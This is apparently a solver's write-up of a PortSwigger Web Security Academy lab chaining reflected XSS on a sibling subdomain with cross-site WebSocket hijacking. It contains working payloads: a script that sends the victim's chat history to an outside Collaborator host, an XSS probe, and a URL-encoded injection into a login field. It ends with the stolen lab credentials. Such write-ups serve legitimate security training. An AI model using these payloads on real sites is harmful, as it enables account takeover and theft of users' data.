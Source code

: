 
# SameSite Strict bypass via sibling domain

This lab's live chat feature is vulnerable to cross-site WebSocket hijacking (CSWSH). To solve the lab, log in to the victim's account.

To do this, use the provided exploit server to perform a CSWSH attack that exfiltrates the victim's chat history to the default Burp Collaborator server. The chat history contains the login credentials in plain text.

If you haven't done so already, we recommend completing our topic on WebSocket vulnerabilities before attempting this lab.

Hint: Make sure you fully audit all of the available attack surface. Keep an eye out for additional vulnerabilities that may help you to deliver your attack, and bear in mind that two domains can be located within the same site.

---------------------------------------------

References: 

- https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions

- https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking



![img](images/SameSite%20Strict%20bypass%20via%20sibling%20domain/1.png)

---------------------------------------------

From the already completed “Cross-site WebSocket hijacking” lab in the WebSockets section we have the payload:

```
<script>
    var ws = new WebSocket('wss://0a29009b04e2e582804fc1f700b800d5.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://if1w7siga1cezj30b8k08i20erki8bw0.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```


There is a connection:



![img](images/SameSite%20Strict%20bypass%20via%20sibling%20domain/2.png)


We can read the Javascript code to write comments to the chat in /resources/js/chat.js:



![img](images/SameSite%20Strict%20bypass%20via%20sibling%20domain/3.png)

And that the characters encoded when sending a message are: 

``` 
' " < > & \r \n \\
```





![img](images/SameSite%20Strict%20bypass%20via%20sibling%20domain/4.png)
![img](images/SameSite%20Strict%20bypass%20via%20sibling%20domain/5.png)


```
(function () {
    var chatForm = document.getElementById("chatForm");
    var messageBox = document.getElementById("message-box");
    var webSocket = new WebSocket(chatForm.getAttribute("action"));

    webSocket.onopen = function (evt) {
        writeMessage("system", "System:", "No chat history on record")
        webSocket.send("READY")
    }

    webSocket.onmessage = function (evt) {
        var message = evt.data;

        if (message === "TYPING") {
            writeMessage("typing", "", "[typing...]")
        } else {
            var messageJson = JSON.parse(message);
            if (messageJson && messageJson['user'] !== "CONNECTED") {
                Array.from(document.getElementsByClassName("system")).forEach(function (element) {
                    element.parentNode.removeChild(element);
                });
            }
            Array.from(document.getElementsByClassName("typing")).forEach(function (element) {
                element.parentNode.removeChild(element);
            });

            if (messageJson['user'] && messageJson['content']) {
                writeMessage("message", messageJson['user'] + ":", messageJson['content'])
            }
        }
    };

    webSocket.onclose = function (evt) {
        writeMessage("message", "DISCONNECTED:", "-- Chat has ended --")
    };

    chatForm.addEventListener("submit", function (e) {
        sendMessage(new FormData(this));
        this.reset();
        e.preventDefault();
    });

    function writeMessage(className, user, content) {
        var row = document.createElement("tr");
        row.className = className

        var userCell = document.createElement("th");
        var contentCell = document.createElement("td");
        userCell.innerHTML = user;
        contentCell.innerHTML = content;

        row.appendChild(userCell);
        row.appendChild(contentCell);
        document.getElementById("chat-area").appendChild(row);
    }

    function sendMessage(data) {
        var object = {};
        data.forEach(function (value, key) {
            object[key] = htmlEncode(value);
        });

        webSocket.send(JSON.stringify(object));
    }

    function htmlEncode(str) {
        if (chatForm.getAttribute("encode")) {
            return String(str).replace(/['"<>&\r\n\\]/gi, function (c) {
                var lookup = {'\\': '&#x5c;', '\r': '&#x0d;', '\n': '&#x0a;', '"': '&quot;', '<': '&lt;', '>': '&gt;', "'": '&#39;', '&': '&amp;'};
                return lookup[c];
            });
        }
        return str;
    }
})();
```


When retrieving this file we find a subdomain “cms” in the HTTP header “Access-Control-Allow-Origin” in the response:



![img](images/SameSite%20Strict%20bypass%20via%20sibling%20domain/6.png)


There is a login function in the subdomain. It reflects the username we send:



![img](images/SameSite%20Strict%20bypass%20via%20sibling%20domain/7.png)


Using the XSS payload in the username field we get a XSS:

```
<script>alert(1)</script>
```



![img](images/SameSite%20Strict%20bypass%20via%20sibling%20domain/8.png)


This is a POST request but can be changed to GET:



![img](images/SameSite%20Strict%20bypass%20via%20sibling%20domain/9.png)


"As this sibling domain is part of the same site, you can use this XSS to launch the CSWSH attack without it being mitigated by SameSite restrictions"

```
<script>
    document.location = "https://cms-0a29009b04e2e582804fc1f700b800d5.web-security-academy.net/login?username=aa&password=aa";
</script>
```


URL-encode the “Cross-site WebSocket hijacking” payload:

```
%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%32%39%30%30%39%62%30%34%65%32%65%35%38%32%38%30%34%66%63%31%66%37%30%30%62%38%30%30%64%35%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%69%66%31%77%37%73%69%67%61%31%63%65%7a%6a%33%30%62%38%6b%30%38%69%32%30%65%72%6b%69%38%62%77%30%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e
```


Use it as the payload in the username field:


```
<script>
    document.location = "https://cms-0a29009b04e2e582804fc1f700b800d5.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%32%39%30%30%39%62%30%34%65%32%65%35%38%32%38%30%34%66%63%31%66%37%30%30%62%38%30%30%64%35%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%69%66%31%77%37%73%69%67%61%31%63%65%7a%6a%33%30%62%38%6b%30%38%69%32%30%65%72%6b%69%38%62%77%30%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=aa";
</script>
```




![img](images/SameSite%20Strict%20bypass%20via%20sibling%20domain/10.png)


Login with credentials carlos:565vmsewc7e8c05o7jf4